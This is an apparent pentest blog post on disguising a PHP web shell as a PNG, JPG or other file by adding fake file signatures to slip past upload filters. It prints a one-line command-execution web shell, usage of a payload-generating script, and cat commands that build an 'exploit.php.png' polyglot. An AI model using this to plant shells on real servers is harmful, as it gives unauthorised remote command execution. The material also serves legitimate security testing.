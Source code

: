 ```yaml
---
layout: post
title: Custom Signature PHP Payloads  
tags:
  - Tool
  - Pentest
---
```


<div class="message">
Easily generating PHP Payloads with Custom file signatures to bypass input sanitisation
</div>

![](/assets/images/cpngh/h2.png)


### What is this?
A tip on bypassing input sanitation by changing payload signature.
This process is generally done in packet analyser or proxy application like burp but this can be done easily without that.
We will look into two basic ways to achieve this.

### Why this works?
PHP generally start interpreting the script whereever `<?php` tag starts so anything gibberish preceding that will not be executed and that's good news for us as we can now append the payload after some file descripters so that meta data of the file will show whatever we want it to show but it will still be a valid PHP script.

### Methods

#### Python script

Don't worry I have done the hard work for you, you just need to prepare your payload, we will put burden of signature management to script.

Actually this is small project where I am colleting some of the commonly used file signatures from real files (not the internet and file format wikis) this should give all the payload more convincing results.

You can get the project from GitHub [HERE](https://github.com/Saket-Upadhyay/CustomPhpPayloadSignature)

***With custom python script***
<br>
As simple as

```sh
python cupps.py -s png
```
this will create PHP payload `<?php system($_GET['cmd']);?>` with PNG signature. this is one of the commonly  known tricks to bypass most of the basic image upload scenarios.

All the available signatures can be seen by `-h` parameter.

```sh
$ python cupps.py -h

usage: cupps.py [-h] [-s target_signature]

Script to create PHP Payloads with custom file signatures

optional arguments:
  -h, --help            show this help message and exit
  -s target_signature, --signature target_signature
                        accepted inputs : png,jpg,exe,elf,gif,bmp,jar,pdf,iso

~ with <3 by X64M

```
> NOTE: This is active project as of 15-08-2020 and I am trying to add more signatures to it so feel free to contribute.


***By appending output of `cat`***

This is one of the neat tricks to achieve this.

just do this :

```sh
cat image.png | head -n 3 >>exploit.php.png
```

this will take the image header and will write to the file `exploit.php.png` 

and then

```sh
cat payload.php >>exploit.php.png
```
This will append the payload to the file with existing image header.

![](/assets/images/cpngh/bt.png)

And that would just do it.

### Conclusion
Well, that's it for this article. See ya in next one!

Till then stay caffenated enough !

--

